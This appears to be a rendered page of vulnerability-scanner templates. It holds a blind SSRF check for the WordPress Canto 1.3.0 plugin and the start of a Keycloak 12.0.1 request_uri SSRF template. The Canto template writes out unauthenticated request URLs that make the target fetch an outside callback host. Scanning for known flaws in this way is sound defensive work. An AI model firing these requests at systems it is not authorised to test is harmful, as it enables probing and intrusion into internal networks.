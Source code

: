 **Type - word**

- words
  1. Name or service not known
- part - body

**Type - word**

- words
  1. text/plain
- part - header

---

# Wordpress Plugin Canto 1.3.0 - Blind SSRF (Unauthenticated)

## Description

- The Canto plugin 1.3.0 for WordPress contains a blind SSRF vulnerability. It allows an unauthenticated attacker to make a request to any internal and external server via /includes/lib/detail.php?subdomain=SSRF.
- severity - medium
- tags - cve,cve2020,ssrf,wordpress,wp-plugin,oast,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/canto/includes/lib/detail.php?subdomain={{interactsh-url}}
- {{BaseURL}}/wp-content/plugins/canto/includes/lib/get.php?subdomain={{interactsh-url}}
- {{BaseURL}}/wp-content/plugins/canto/includes/lib/tree.php?subdomain={{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Keycloak 12.0.1 - request_uri Blind Server-Side Request Forgery (SSRF)

## Description

- Keycloak 12.0.1 and below allow an attacker to force the server to request an unverified URL using the OIDC parameter request_uri. This allows an attacker to execute a server-side request forgery (SSRF) attack.
- severity - medium
- tags - keycloak,ssrf,oast,cve,cve2020,blind,packetstorm,edb
